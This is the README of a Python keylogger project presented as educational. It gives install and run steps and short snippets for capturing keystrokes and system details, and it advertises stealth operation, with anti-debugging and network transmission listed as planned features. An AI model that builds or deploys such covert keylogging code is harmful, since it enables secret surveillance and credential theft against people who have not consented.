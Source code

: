 # Python Keylogger 

**A Python-based keylogger implementation demonstrating keyboard monitoring and system information collection. For educational/research purposes only.**

⚠️ **Important Legal Disclaimer** ⚠️  
This project is intended **strictly for educational purposes**. Unauthorized use to monitor devices without explicit permission is illegal. Developers assume no liability for misuse.

## Features
- **Keystroke Logging**: Records keyboard inputs with timestamps
- **System Metadata Capture**: Collects hostname, IP addresses, and hardware specs
- **Special Key Handling**: Detects Enter/Space/Backspace
- **Stealth Operation**: Runs with minimal system visibility
- **Cross-Platform**: Compatible with Windows, macOS, and Linux
- **Error Resilience**: Robust exception handling

## Project Structure
- `keylogger.py`: Core logging implementation
- **Modules**:
  - **System Profiler**: Hardware/network data collection
  - **Key Listener**: Keyboard input monitoring
  - **Log Manager**: Secure data storage handling

## Prerequisites
- Python 3.6+
- Administrative privileges (recommended)
- Network connection (for public IP detection)

## Installation & Usage
1. **Clone repository**:
```bash
git clone https://github.com/sabihhuda/Keylogger-Phyton.git
cd python-keylogger
```

2. **Install dependencies**:
```bash
pip install pynput requests
```

3. **Run keylogger**:
```bash
python keylogger.py
```

Logs will be saved to `key_log.txt` in the project directory.

## Configuration
Customize in `keylogger.py`:
```python
# Change log location
LOG_DIRECTORY = "/path/to/custom/folder/"

# Modify logging format
logging.basicConfig(
    format="[%(asctime)s] %(message)s",
    datefmt="%d-%b-%Y %H:%M:%S"
)
```

## Code Snippets
### 1. System Information Collection
```python
def collect_system_info():
    """Gather device metadata"""
    hostname = socket.gethostname()
    logging.info(f"OS Version: {platform.system()} {platform.release()}")
    logging.info(f"Architecture: {platform.machine()}")
```

### 2. Key Press Handler
```python
def on_key_press(key):
    """Process keyboard input"""
    try:
        if key == Key.space:
            logging.info("[SPACE]")
        elif key == Key.enter:
            logging.info("[ENTER]")
        else:
            logging.info(str(key).replace("'", ""))
    except Exception as e:
        logging.error(f"Key processing error: {str(e)}")
```

## Ethical Guidelines
- 🛑 **Legal Compliance**: Always obtain written consent before testing
- 🔐 **Data Security**: Treat logs as sensitive information
- ⚠️ **Responsible Disclosure**: Never deploy on unauthorized systems
- 🧹 **Cleanup**: Remove all logs after educational use

## Future Enhancements
- GUI configuration panel
- Log file encryption
- Network transmission module
- Anti-debugging techniques
- Usage time limitations

## License
MIT License - See [LICENSE](LICENSE) for details

## Contact
For educational inquiries: sabihhuda3@gmail.com  
**Note:** This project is not maintained for production use - created purely for academic demonstration.
```

